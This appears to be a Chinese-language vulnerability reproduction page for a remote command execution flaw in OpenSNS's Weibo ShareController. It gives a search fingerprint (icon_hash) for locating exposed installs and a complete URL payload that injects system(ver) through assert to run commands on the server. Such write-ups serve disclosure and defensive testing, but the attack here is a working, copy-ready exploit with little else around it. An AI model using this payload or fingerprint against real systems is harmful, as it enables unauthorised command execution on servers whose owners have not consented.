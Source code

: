 # OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/image-20210629150345721.png)

存在漏洞的文件 `Application/Weibo/Controller/ShareController.class.php`

![img](/assets/PeiQi-Wiki/img/1634372349493-09076c1f-7406-46af-b4b4-9cabb771a8ec.png)

发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```



![img](/assets/PeiQi-Wiki/img/image-20210629150412729.png)

